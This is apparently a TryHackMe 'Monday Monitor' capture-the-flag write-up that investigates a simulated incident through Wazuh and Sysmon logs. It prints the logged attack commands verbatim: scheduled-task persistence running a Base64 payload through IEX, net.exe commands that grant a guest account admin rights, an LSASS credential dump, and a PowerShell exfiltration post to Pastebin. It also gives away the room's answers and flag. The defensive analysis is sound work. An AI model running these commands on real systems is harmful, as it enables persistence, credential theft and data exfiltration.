# Monday monitor tryhackme [here](https://tryhackme.com/room/mondaymonitor)

Swiftspend Finance is enhancing its cybersecurity by leveraging **Wazuh** and **Sysmon** for endpoint monitoring. On April 29, 2024, between 12:00:00 and 20:00:00, tests were conducted to detect suspicious activities. This README outlines the investigation of a security incident involving a phishing attachment, scheduled task, credential dumping, and data exfiltration, using Wazuh logs and Sysmon events. The analysis addresses the following questions:

1. File name saved on the host from initial access.
2. Full command used to create a scheduled task.
3. Scheduled task execution time.
4. Decoded content of the encoded data.
5. Password set for the new user account.
6. Name of the executable used to dump credentials.
7. Flag included in the exfiltrated data.

## Incident Overview

The incident involves a phishing attack that downloaded a malicious file, established persistence via a scheduled task, created a new user account, dumped credentials, and exfiltrated sensitive data. Wazuh and Sysmon logs were analyzed to uncover these activities, mapped to MITRE ATT&CK techniques.

## Investigation Steps and Findings

### 1. File Name Saved on the Host
**Question**: What is the file name saved on the host from initial access?

**Search**: Queried Wazuh for `localhost` to identify download events.

**Finding**: A PowerShell command downloaded a file from `http://localhost/SwiftSpend_Financial_Expenses.xlsm` and saved it as `PhishingAttachment.xlsm` in the Temp directory.

**Log**:
```
"powershell.exe" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}
```



**Answer**: The file saved on the host is `SwiftSpend_Financial_Expenses.xlsm`.

**MITRE ATT&CK**: T1566.001 (Spearphishing Attachment)

### 2. Full Command for Scheduled Task
**Question**: What is the full command run to create a scheduled task?

**Search**: Filtered Wazuh for `scheduler` or `schtasks`, yielding 10 hits, with two suspicious entries.

**Finding**: A command created a scheduled task named `ATOMIC-T1053.005` with a Base64-encoded payload.

**Log**:
```
"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```



**Answer**: The full command is:
```
cmd.exe /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34"
```

**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 3. Scheduled Task Execution Time
**Question**: What time is the scheduled task meant to run?

**Finding**: The scheduled task command specifies `/st 12:34` for daily execution.

**Log Reference**: See above command.

**Answer**: The scheduled task runs at **12:34**.


**MITRE ATT&CK**: T1053.005 (Scheduled Task)

### 4. Decoded Encoded Data
**Question**: What was encoded?

**Search**: Analyzed the Base64-encoded data `cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` from the scheduled task command.

**Finding**: Decoded using a Base64 decoder, the data translates to `ping www.youarevulnerable.thm`.




**Answer**: The encoded data decodes to `ping www.youarevulnerable.thm`.

**MITRE ATT&CK**: T1027 (Obfuscated Files or Information)

### 5. Password for New User Account
**Question**: What password was set for the new user account?

**Search**: Filtered Wazuh for `/add` and `net.exe`, identifying commands related to user account creation. Further searched for `guest` to find the password.

**Finding**: The command `"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG` sets the password for the `guest` account. Another command adds `guest` to the Administrators group.

**Logs**:
```
"C:\Windows\system32\net.exe" localgroup Administrators guest /add
"C:\Windows\system32\net.exe" user guest I_AM_M0NIT0R1NG
```




**Answer**: The password for the new user account is `I_AM_M0NIT0R1NG`.

**MITRE ATT&CK**: T1078.003 (Local Accounts)
### 6. Executable for Credential Dumping
**Question**: What is the name of the .exe that was used to dump credentials?

**Search**: Queried Wazuh for `*dump*`, yielding 15 hits, with relevant entries involving `memotech.exe`.

**Finding**: The command uses `memotech.exe` to perform credential dumping via `sekurlsa::minidump` and `sekurlsa::logonpasswords`.

**Log**:
```
"C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe" "sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP" "sekurlsa::logonpasswords full" exit
```


**Answer**: The executable used is `memotech.exe`.

**MITRE ATT&CK**: T1003.001 (LSASS Memory Dumping)

### 7. Flag in Exfiltrated Data
**Question**: What was the flag that was part of the exfiltrated data?

**Search**: Filtered Wazuh for `*Post*`, identifying a PowerShell command sending data to Pastebin.

**Finding**: The command includes a flag `THM{M0N1T0R_1$_1N_3FF3CT}` in the exfiltrated content.

**Log**:
```
"powershell.exe" & {$apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0" $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..." $url = "https://pastebin.com/api/api_post.php" $postData = @{ api_dev_key = $apiKey api_option = "paste" api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host "Your paste URL: $response"}
```


**Answer**: The flag is `THM{M0N1T0R_1$_1N_3FF3CT}`.

**MITRE ATT&CK**: T1567 (Exfiltration Over Web Service)
## Wazuh and Sysmon Configuration


## Documentation
- Wazuh: [documentation.wazuh.com](https://documentation.wazuh.com)
- Sysmon: [Sysmon Community Guide](https://github.com/trustedsec/SysmonCommunityGuide)
- Osquery: [osquery.io](https://osquery.io)
